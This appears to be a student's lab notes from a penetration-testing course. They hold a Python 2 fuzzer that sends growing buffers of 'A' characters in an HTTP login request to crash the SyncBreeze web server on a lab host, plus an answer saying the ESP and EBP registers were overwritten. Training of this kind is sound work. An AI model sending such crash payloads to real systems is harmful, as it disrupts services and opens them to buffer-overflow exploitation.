



### 11.1.1.2 Exercises
#### 1. Build the fuzzer and replicate the SyncBreeze crash.

```python
#!/usr/bin/python
import socket
import time
import sys
size = 100
while(size < 2000):
    try:
        print "\nSending evil buffer with %s bytes" % size
        inputBuffer = "A" * size
        content = "username=" + inputBuffer + "&password=A"
        buffer = "POST /login HTTP/1.1\r\n"
        buffer += "Host: 192.168.216.10\r\n"
        buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
        buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
        buffer += "Accept-Language: en-US,en;q=0.5\r\n"
        buffer += "Referer: http://192.168.216.10/login\r\n"
        buffer += "Connection: close\r\n"
        buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
        buffer += "Content-Length: "+str(len(content))+"\r\n"
        buffer += "\r\n"
        buffer += content
        s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("192.168.216.10", 80))
        s.send(buffer)
        s.close()
        size += 100
        time.sleep(4)
    except:
        print "\nCould not connect!"
        sys.exit()
```





#### 2. Inspect the content of other registers and stack memory. Does anything seem to be directly influenced by the fuzzing input?

The ESP & EBP registers both appear to have been overwitten by strings.

